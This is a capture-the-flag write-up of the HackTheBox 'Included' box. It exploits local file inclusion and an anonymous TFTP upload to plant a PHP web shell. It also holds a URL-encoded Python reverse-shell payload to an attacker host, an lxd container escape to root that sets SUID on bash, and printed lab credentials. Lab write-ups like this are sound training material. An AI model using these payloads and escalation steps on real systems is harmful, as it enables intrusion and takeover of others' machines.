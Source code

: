 ```yaml
---
description: Included box from HackTheBox write up.
---
```


# Included

## Nmap scan

```bash
┌──(kali㉿kali)-[~]
└─$ sudo nmap <MACHINE_IP> -sC -sV -p80          
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-10 20:33 EDT
Nmap scan report for <MACHINE_IP>
Host is up (0.052s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_Requested resource was http://<MACHINE_IP>/?file=index.php

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.56 seconds
```

Only port 80 open so let's check that website

## Port 80

Immediately i noticed that the URL was: `http://<MACHINE_IP>/?file=index.php` so i tried LFI with `http://<MACHINE_IP>/?file=../../../../../../etc/passwd`:

```
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin syslog:x:102:106::/home/syslog:/usr/sbin/nologin messagebus:x:103:107::/nonexistent:/usr/sbin/nologin _apt:x:104:65534::/nonexistent:/usr/sbin/nologin lxd:x:105:65534::/var/lib/lxd/:/bin/false uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin pollinate:x:109:1::/var/cache/pollinate:/bin/false mike:x:1000:1000:mike:/home/mike:/bin/bash tftp:x:110:113:tftp daemon,,,:/var/lib/tftpboot:/usr/sbin/nologin 
```

So we have that. I tried `gobuster` and `wfuzz` to try to get more information about the files in the machine but nothing there. I even run a full port scan but no luck.

## More ports?

I noticed that in the `passwd` file we can see a `tftp` user so maybe if we run an UDP scan with `nmap` we would find more open ports?

```bash
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sU <MACHINE_IP> -p69                                        130 ⨯
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-10 21:29 EDT
Nmap scan report for <MACHINE_IP>
Host is up (0.052s latency).

PORT   STATE         SERVICE
69/udp open|filtered tftp

Nmap done: 1 IP address (1 host up) scanned in 0.92 seconds
```

Ok so maybe we are starting to get our luck back, looks like we have a `tftp` service, a really basic `ftp `(And without authentication!). Let's check it out.

### Tftp service

Instead of using the `tftp` client I preferred Python with the library `tftpy`

```python
#! /usr/bin/env python3

import tftpy

client = tftpy.TftpClient('<MACHINE_IP>', 69)

# Create a testing file (Looks like gets deleted on upload)
f = open("test.txt", "w")
f.write("Im just a test file!")
f.close()

try:
	client.upload("test_remote.txt", "test.txt", timeout=5)
	print('---------------')
	print('File uploaded!')
	print('---------------')
except Exception as e:
	print(e)
```

I tested the script and it is reporting that the file is being uploaded. Now we need to know where it is, i searched for the service configuration file using the LFI we already have:

```
http://<MACHINE_IP>/?file=../../../../etc/default/tftpd-hpa
# /etc/default/tftpd-hpa TFTP_USERNAME="tftp" TFTP_DIRECTORY="/var/lib/tftpboot" TFTP_ADDRESS=":69" TFTP_OPTIONS="-s -l -c" 
```

And now we know that the files we upload are in `/var/lib/tftpboot` let's try it:

```
http://<MACHINE_IP>/?file=../../../../var/lib/tftpboot/test_remote.txt
Im just a test file! 
```

Cool! I guess we can try to upload something more interesting for us:

```php
<?php
    if(isset($_GET['cmd'])){
    	system($_GET['cmd']);
    }
?>
```

And the result:

```bash
http://<MACHINE_IP>/?file=../../../../var/lib/tftpboot/shell_remote.php&cmd=id
uid=33(www-data) gid=33(www-data) groups=33(www-data) 
```

Now we have RCE and we can get a reverse shell! We can use this URL encoded payload:

```
http://<MACHINE_IP>/?file=../../../../var/lib/tftpboot/shell_remote.php&cmd=python3%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22<ATACKER_IP>%22%2C<ATACKER_PORT>%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dsubprocess.call%28%5B%22%2Fbin%2Fsh%22%2C%22-i%22%5D%29%3B%27
```

## Into the machine

Once into the machine i looked around for a while, run `linpeas`... but I couldn't find anything obvious. After  a while I tried the password `Sheffield19` that we got in the Pathfinder machine and... worked! I guess I should have started with that.

### From mike to root

The user flag is in `/home/mike/user.txt`. I immediately saw that this user is part of the `lxd` group so we can use that for privilege escalation.

```bash
# Import the image
lxc image import ./alpine-v3.14-x86_64-20210909_2211.tar.gz --alias justAnImage

# Init the storage pool as default if it is not
lxd init

# Run the image with security.privileged
lxc init justAnImage nothingBadHere -c security.privileged=true

# Mount the host disk into the container /mnt/root path
lxc config device add nothingBadHere hostDisk disk source=/ path=/mnt/root recursive=true

# Start the container and attach to it
lxc start nothingBadHere
lxc exec nothingBadHere /bin/sh
```

Once into the container we can just go to `/mnt/root` to get access to the host file system as root. Once there, i like to add the SUID bit to the `bash` binary to get root access outside the container with: `bash -p`. The root flag is under `/root/root.txt` and also in the `/root` folder we can see a file called `login.sql`:

```bash
bash-4.4# cat login.sql 
-- MySQL dump 10.16  Distrib 10.1.44-MariaDB, for debian-linux-gnu (x86_64)
--
-- Host: localhost    Database: Markup
-- ------------------------------------------------------
-- Server version	10.1.44-MariaDB-0ubuntu0.18.04.1

/*!40101 SET @OLD_CHARACTER_SET_CLIENT=@@CHARACTER_SET_CLIENT */;
/*!40101 SET @OLD_CHARACTER_SET_RESULTS=@@CHARACTER_SET_RESULTS */;
/*!40101 SET @OLD_COLLATION_CONNECTION=@@COLLATION_CONNECTION */;
/*!40101 SET NAMES utf8mb4 */;
/*!40103 SET @OLD_TIME_ZONE=@@TIME_ZONE */;
/*!40103 SET TIME_ZONE='+00:00' */;
/*!40014 SET @OLD_UNIQUE_CHECKS=@@UNIQUE_CHECKS, UNIQUE_CHECKS=0 */;
/*!40014 SET @OLD_FOREIGN_KEY_CHECKS=@@FOREIGN_KEY_CHECKS, FOREIGN_KEY_CHECKS=0 */;
/*!40101 SET @OLD_SQL_MODE=@@SQL_MODE, SQL_MODE='NO_AUTO_VALUE_ON_ZERO' */;
/*!40111 SET @OLD_SQL_NOTES=@@SQL_NOTES, SQL_NOTES=0 */;

--
-- Table structure for table `login`
--

DROP TABLE IF EXISTS `login`;
/*!40101 SET @saved_cs_client     = @@character_set_client */;
/*!40101 SET character_set_client = utf8 */;
CREATE TABLE `login` (
  `id` int(11) NOT NULL AUTO_INCREMENT,
  `username` varchar(100) NOT NULL,
  `password` varchar(100) NOT NULL,
  PRIMARY KEY (`id`)
) ENGINE=InnoDB AUTO_INCREMENT=2 DEFAULT CHARSET=utf8mb4;
/*!40101 SET character_set_client = @saved_cs_client */;

--
-- Dumping data for table `login`
--

LOCK TABLES `login` WRITE;
/*!40000 ALTER TABLE `login` DISABLE KEYS */;
INSERT INTO `login` VALUES (1,'Daniel','>SNDv*2wzLWf');
/*!40000 ALTER TABLE `login` ENABLE KEYS */;
UNLOCK TABLES;
/*!40103 SET TIME_ZONE=@OLD_TIME_ZONE */;

/*!40101 SET SQL_MODE=@OLD_SQL_MODE */;
/*!40014 SET FOREIGN_KEY_CHECKS=@OLD_FOREIGN_KEY_CHECKS */;
/*!40014 SET UNIQUE_CHECKS=@OLD_UNIQUE_CHECKS */;
/*!40101 SET CHARACTER_SET_CLIENT=@OLD_CHARACTER_SET_CLIENT */;
/*!40101 SET CHARACTER_SET_RESULTS=@OLD_CHARACTER_SET_RESULTS */;
/*!40101 SET COLLATION_CONNECTION=@OLD_COLLATION_CONNECTION */;
/*!40111 SET SQL_NOTES=@OLD_SQL_NOTES */;
```

It has new credentials: `Daniel:>SNDv*2wzLWf`
